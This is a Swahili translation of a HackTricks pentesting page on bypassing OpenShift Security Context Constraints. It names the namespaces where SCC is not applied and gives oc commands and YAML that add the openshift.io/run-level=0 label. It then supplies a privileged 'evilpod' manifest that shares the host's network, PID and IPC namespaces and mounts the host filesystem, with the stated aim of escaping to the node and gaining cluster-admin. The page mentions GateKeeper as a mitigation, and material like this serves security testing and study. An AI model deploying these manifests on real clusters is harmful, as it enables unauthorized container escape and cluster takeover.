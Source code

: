 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**Mwandishi wa awali wa ukurasa huu ni** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Majina ya Haki

Kwa kawaida, SCC haitumiki kwenye miradi ifuatayo:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Ikiwa utaweka pods ndani ya mojawapo ya majina haya, hakuna SCC itakayotekelezwa, ikiruhusu kuwekwa kwa pods zenye haki au kuunganisha mfumo wa faili wa mwenyeji.

## Lebo ya Namespace

Kuna njia ya kuzima matumizi ya SCC kwenye pod yako kulingana na nyaraka za RedHat. Itabidi uwe na angalau moja ya ruhusa zifuatazo:

- Kuunda Namespace na Kuunda Pod kwenye Namespace hii
- Hariri Namespace na Kuunda Pod kwenye Namespace hii
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Ile lebo maalum `openshift.io/run-level` inawawezesha watumiaji kupita SCCs kwa programu. Kulingana na nyaraka za RedHat, wakati lebo hii inatumika, hakuna SCCs zinazotekelezwa kwenye pods zote ndani ya nafasi hiyo, kwa ufanisi kuondoa vizuizi vyovyote.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ongeza Lebo

Ili kuongeza lebo katika nafasi yako:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Ili kuunda namespace yenye lebo kupitia faili la YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sasa, pods zote mpya zilizoundwa kwenye namespace hazipaswi kuwa na SCC yoyote

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Katika kukosekana kwa SCC, hakuna vizuizi kwenye ufafanuzi wa pod yako. Hii inamaanisha kuwa pod mbaya inaweza kuundwa kwa urahisi ili kutoroka kwenye mfumo wa mwenyeji.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sasa, imekuwa rahisi kupandisha mamlaka ili kufikia mfumo wa mwenyeji na hatimaye kuchukua udhibiti wa klasta nzima, kupata mamlaka ya 'cluster-admin'. Tafuta sehemu ya **Node-Post Exploitation** katika ukurasa ufuatao:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Lebo za kawaida

Zaidi ya hayo, kulingana na mipangilio ya lengo, lebo / maelezo maalum yanaweza kutumika kwa njia sawa na hali ya shambulio iliyopita. Hata kama haijafanywa kwa ajili yake, lebo zinaweza kutumika kutoa ruhusa, kuzuia au sio rasilimali maalum.

Jaribu kutafuta lebo maalum ikiwa unaweza kusoma baadhi ya rasilimali. Hapa kuna orodha ya rasilimali za kuvutia:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Orodha ya majina ya nafasi zenye mamlaka
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

Katika OpenShift, kama ilivyoonyeshwa hapo awali, kuwa na ruhusa ya kupeleka pod katika namespace yenye lebo ya `openshift.io/run-level` kunaweza kusababisha kuchukuliwa kwa urahisi kwa klasta. Kutoka kwa mtazamo wa mipangilio ya klasta, kazi hii **haiwezi kuzuiliwa**, kwani ni sehemu ya muundo wa OpenShift.

Hata hivyo, hatua za kupunguza kama **Open Policy Agent GateKeeper** zinaweza kuzuia watumiaji kuweka lebo hii.

Ili kupita sheria za GateKeeper na kuweka lebo hii ili kutekeleza kuchukuliwa kwa klasta, **washambuliaji wangehitaji kubaini mbinu mbadala.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}

